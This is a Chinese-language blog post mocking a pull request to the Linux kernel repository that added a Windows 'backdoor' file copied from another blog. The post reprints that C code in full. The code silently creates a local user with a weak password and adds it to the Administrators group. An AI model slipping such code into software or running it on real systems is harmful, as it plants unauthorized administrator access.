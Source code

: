 ```yaml
---
# type: docs 
title: Linux 笑传之 windows.h
date: 2024-12-07 17:39:09+08:00
featured: false
comment: true
toc: true
reward: true
pinned: false
carousel: false
description: 关于linux仓库被推送带有windows.h的后门那些事
series:
categories: [闲聊]
tags: []
images: []
---
```


前些天看到了[Create usr.c by axhuoga1 · Pull Request #1086 · torvalds/linux - WaybackMachine](https://web.archive.org/web/20241129140736/https://github.com/torvalds/linux/pull/1086/files)，被*Windows.h*给看乐了，后面又看到别人的评论，居然是从[某些地方](https://www.cnblogs.com/LyShark/p/13420509.html)抄来的"后门"，令人忍俊不禁。

```c

#include <stdio.h>
#include <assert.h>
#include <windows.h> 
#include <lm.h>
#pragma comment(lib,"netapi32")
void AddUser(LPWSTR UserName, LPWSTR Password)
{
    USER_INFO_1 user;
    user.usri1_name = UserName;
    user.usri1_password = Password;
    user.usri1_priv = USER_PRIV_USER;
    user.usri1_home_dir = NULL;
    user.usri1_comment = NULL;
    user.usri1_flags = UF_SCRIPT;
    user.usri1_script_path = NULL;
    if (NetUserAdd(NULL, 1, (LPBYTE)&user, 0) == NERR_Success)
        printf("创建用户完成 \n");
    LOCALGROUP_MEMBERS_INFO_3 account;
    account.lgrmi3_domainandname = user.usri1_name;
    if (NetLocalGroupAddMembers(NULL, L"Administrators", 3, (LPBYTE)&account, 1) == NERR_Success)
        printf("添加到组完成 \n");
}
void EnumUser()
{
    LPUSER_INFO_0 pBuf = NULL;
    LPUSER_INFO_0 pTmpBuf;
    DWORD dwLevel = 0;
    DWORD dwPrefMaxLen = MAX_PREFERRED_LENGTH;
    DWORD dwEntriesRead = 0, dwTotalEntries = 0, dwResumeHandle = 0;
    DWORD i;
    NET_API_STATUS nStatus;
    LPTSTR pszServerName = NULL;

    do
    {
        nStatus = NetUserEnum((LPCWSTR)pszServerName, dwLevel, FILTER_NORMAL_ACCOUNT,
            (LPBYTE*)&pBuf, dwPrefMaxLen, &dwEntriesRead, &dwTotalEntries, &dwResumeHandle);

        if ((nStatus == NERR_Success) || (nStatus == ERROR_MORE_DATA))
        {
            if ((pTmpBuf = pBuf) != NULL)
            {
                for (i = 0; (i < dwEntriesRead); i++)
                {
                    assert(pTmpBuf != NULL);

                    if (pTmpBuf == NULL)
                    {
                        break;
                    }
                    wprintf(L"%s\n", pTmpBuf->usri0_name, pTmpBuf);
                    pTmpBuf++;
                }
            }
        }

        if (pBuf != NULL)
        {
            NetApiBufferFree(pBuf);
            pBuf = NULL;
        }
    } while (nStatus == ERROR_MORE_DATA);
    NetApiBufferFree(pBuf);
}

int main(int argc, char *argv[])
{
    AddUser(L"lyshark", L"123123");
    EnumUser();

    system("pause");
    return 0;
}

```

看了一下除了删除了一些注释以外，基本上和原文是一致的，甚至连创建的用户“lyshark”都是原博主的用户名。

提交者axhuoga1的[主页](https://web.archive.org/web/20241123003548/https://github.com/axhuoga1)，大部分Repo都是一些很简单的项目（猜数字小游戏，贪吃蛇），看得出来这位是真的纯真。

可惜的是他的账号在前几天就被删除了，有些遗憾，不过有人给他Archive下来了，也是蛮有意思的。
